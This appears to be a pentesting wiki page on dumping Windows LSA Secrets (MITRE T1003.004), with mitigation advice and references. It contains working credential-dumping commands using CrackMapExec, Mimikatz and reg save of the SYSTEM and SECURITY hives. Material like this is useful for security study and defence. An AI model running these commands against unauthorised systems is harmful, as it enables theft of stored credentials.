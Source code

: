 ```yaml
---
description: MITRE ATT&CK, Credential Access, Sub-technique T1003.004
---
```


# LSA Secrets

### Dumping LSA Secrets

Dumping LSA Secrets with CrackMapExec:

```bash
crackmapexec smb [HOST] -u [USER] -p [PASSWORD] --lsa
```

Dumping LSA Secrets with Mimikatz:

```bash
lsadump::secrets
```

Dumping LSA Secrets manually and then reading them with Mimikatz

```powershell
reg save HKLM\SYSTEM system & reg save HKLM\security security
lsadump::secrets /system:c:\temp\system /security:c:\temp\security
```

### Mitigations

When researching LSA Secrets on [MITRE](https://attack.mitre.org/techniques/T1003/004/) it appears as though the only mitigation to LSA Secrets being dumped is through detection. However, this is not the case.

The following settings can be configured to remove cached domain credentials from LSA Secrets:

```bash
Cached credential set to 0 on servers
Cached credential set to 1 on workstations
```

When cleartext credentials are retrieved from LSA Secrets it is due to the credentials being stored for a service (E.g., creating a service with a custom user account).

To mitigate this issue, avoid using a domain account for the service. Best practice is to avoid using a domain user account for services. Rather, create a local account to run the service. If specific domain user rights are needed then create an account with the _specific_ rights required. It should also be stated to **never** use a domain administrator account for a service.

### References

* [Dumping and Cracking mscash ](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-and-cracking-mscash-cached-domain-credentials)
* [Preventing 4 Common Methods of Credentials Exfiltration](https://www.sentinelone.com/blog/windows-security-essentials-preventing-4-common-methods-of-credentials-exfiltration/)
* [Windows LSA Secrets](https://www.passcape.com/index.php?section=docsys\&cmd=details\&id=23)

